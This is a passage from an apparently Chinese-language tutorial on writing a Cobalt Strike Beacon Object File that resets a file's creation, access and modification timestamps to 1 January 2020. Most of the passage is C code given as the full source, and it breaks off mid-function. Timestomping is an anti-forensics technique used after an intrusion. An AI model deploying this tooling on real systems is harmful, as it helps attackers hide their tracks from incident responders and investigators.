 ‍

### 时间戳修改

最后使用`SetFileTime`​修改三个时间属性：创建时间、访问时间、修改时间。结束后关闭句柄。

    if (!KERNEL32$SetFileTime(hFile, &ft, &ft, &ft)) {
        BeaconPrintf(CALLBACK_ERROR, "[-] failed to change timestamp");
    } else {
        BeaconPrintf(CALLBACK_OUTPUT, "[+] success: %s", filepath);
    }
    
    KERNEL32$CloseHandle(hFile);
    

这样就简单完成了修改一个文件时间戳的功能，完整代码如下：

    #include <stdio.h>
    #include <Windows.h>
    #include "beacon.h"
    
    // 声明Windows API函数
    DECLSPEC_IMPORT BOOL WINAPI KERNEL32$SetFileTime(HANDLE, const FILETIME*, const FILETIME*, const FILETIME*);
    DECLSPEC_IMPORT HANDLE WINAPI KERNEL32$CreateFileA(LPCSTR, DWORD, DWORD, LPSECURITY_ATTRIBUTES, DWORD, DWORD, HANDLE);
    DECLSPEC_IMPORT BOOL WINAPI KERNEL32$CloseHandle(HANDLE);
    DECLSPEC_IMPORT VOID WINAPI KERNEL32$GetSystemTime(LPSYSTEMTIME);
    DECLSPEC_IMPORT BOOL WINAPI KERNEL32$SystemTimeToFileTime(LPSYSTEMTIME, LPFILETIME);
    
    void go(char* buff, int len) {
        datap parser;
        char* filepath;
    
        BeaconDataParse(&parser, buff, len);
        filepath = BeaconDataExtract(&parser, NULL);
    
        if (!filepath) {
            BeaconPrintf(CALLBACK_ERROR, "[-] please provide file path");
            return;
        }
    
        SYSTEMTIME st;
        FILETIME ft;
        KERNEL32$GetSystemTime(&st);
    
        st.wYear = 2020;
        st.wMonth = 1;
        st.wDay = 1;
        st.wHour = 0;
        st.wMinute = 0;
        st.wSecond = 0;
    
        KERNEL32$SystemTimeToFileTime(&st, &ft);
    
        HANDLE hFile = KERNEL32$CreateFileA(
            filepath,
            FILE_WRITE_ATTRIBUTES,
            FILE_SHARE_READ | FILE_SHARE_WRITE,
            NULL,
            OPEN_EXISTING,
            FILE_ATTRIBUTE_NORMAL,
            NULL
        );
    
